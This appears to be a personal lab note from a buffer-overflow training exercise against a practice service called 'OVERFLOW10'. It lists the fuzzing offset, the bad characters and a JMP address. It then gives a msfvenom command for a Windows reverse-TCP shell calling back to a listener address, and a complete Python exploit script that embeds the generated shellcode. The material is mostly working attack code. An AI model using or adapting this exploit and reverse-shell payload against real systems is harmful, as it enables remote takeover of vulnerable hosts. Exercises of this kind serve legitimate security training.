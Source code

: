 ## fuzzing

![[Pasted image 20210530162755.png]]

## offset

EIP: 41397241

offset: 537

![[Pasted image 20210530162937.png]]

## bad chars

create a new fresh byte array if continuing from 9th exploit 

`!mona bytearray -b "\x00"`

ESP: 0188FA30

bad chars: `\x00\xa0\xad\xbe\xde\xef`

![[Pasted image 20210530163550.png]]


## jmp point

625011AF

little endian: `\xaf\x11\x50\x62`

![[Pasted image 20210530163718.png]]

## exploit

`msfvenom -p windows/shell_reverse_tcp LHOST=10.17.4.208 LPORT=9001 EXITFUNC=thread -f c -a x86 --platform windows -b "\x00\xa0\xad\xbe\xde\xef"`

![[Pasted image 20210530164037.png]]

```python
import socket

ip = "10.10.171.241"
port = 1337

prefix = "OVERFLOW10 "
offset = 537
overflow = "A" * offset
retn = "\xaf\x11\x50\x62"
padding = "\x90" * 16
payload = (
"\x2b\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e\x81\x76\x0e"
"\x33\xab\xb2\x2a\x83\xee\xfc\xe2\xf4\xcf\x43\x30\x2a\x33\xab"
"\xd2\xa3\xd6\x9a\x72\x4e\xb8\xfb\x82\xa1\x61\xa7\x39\x78\x27"
"\x20\xc0\x02\x3c\x1c\xf8\x0c\x02\x54\x1e\x16\x52\xd7\xb0\x06"
"\x13\x6a\x7d\x27\x32\x6c\x50\xd8\x61\xfc\x39\x78\x23\x20\xf8"
"\x16\xb8\xe7\xa3\x52\xd0\xe3\xb3\xfb\x62\x20\xeb\x0a\x32\x78"
"\x39\x63\x2b\x48\x88\x63\xb8\x9f\x39\x2b\xe5\x9a\x4d\x86\xf2"
"\x64\xbf\x2b\xf4\x93\x52\x5f\xc5\xa8\xcf\xd2\x08\xd6\x96\x5f"
"\xd7\xf3\x39\x72\x17\xaa\x61\x4c\xb8\xa7\xf9\xa1\x6b\xb7\xb3"
"\xf9\xb8\xaf\x39\x2b\xe3\x22\xf6\x0e\x17\xf0\xe9\x4b\x6a\xf1"
"\xe3\xd5\xd3\xf4\xed\x70\xb8\xb9\x59\xa7\x6e\xc3\x81\x18\x33"
"\xab\xda\x5d\x40\x99\xed\x7e\x5b\xe7\xc5\x0c\x34\x54\x67\x92"
"\xa3\xaa\xb2\x2a\x1a\x6f\xe6\x7a\x5b\x82\x32\x41\x33\x54\x67"
"\x7a\x63\xfb\xe2\x6a\x63\xeb\xe2\x42\xd9\xa4\x6d\xca\xcc\x7e"
"\x25\x40\x36\xc3\xb8\x3b\x37\x7b\xda\x28\x33\x88\x9b\xa3\xd5"
"\xc1\xa2\x7c\x64\xc3\x2b\x8f\x47\xca\x4d\xff\xb6\x6b\xc6\x26"
"\xcc\xe5\xba\x5f\xdf\xc3\x42\x9f\x91\xfd\x4d\xff\x5b\xc8\xdf"
"\x4e\x33\x22\x51\x7d\x64\xfc\x83\xdc\x59\xb9\xeb\x7c\xd1\x56"
"\xd4\xed\x77\x8f\x8e\x2b\x32\x26\xf6\x0e\x23\x6d\xb2\x6e\x67"
"\xfb\xe4\x7c\x65\xed\xe4\x64\x65\xfd\xe1\x7c\x5b\xd2\x7e\x15"
"\xb5\x54\x67\xa3\xd3\xe5\xe4\x6c\xcc\x9b\xda\x22\xb4\xb6\xd2"
"\xd5\xe6\x10\x52\x37\x19\xa1\xda\x8c\xa6\x16\x2f\xd5\xe6\x97"
"\xb4\x56\x39\x2b\x49\xca\x46\xae\x09\x6d\x20\xd9\xdd\x40\x33"
"\xf8\x4d\xff"
)

postfix = ""

buffer = prefix + overflow + retn + padding + payload  + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```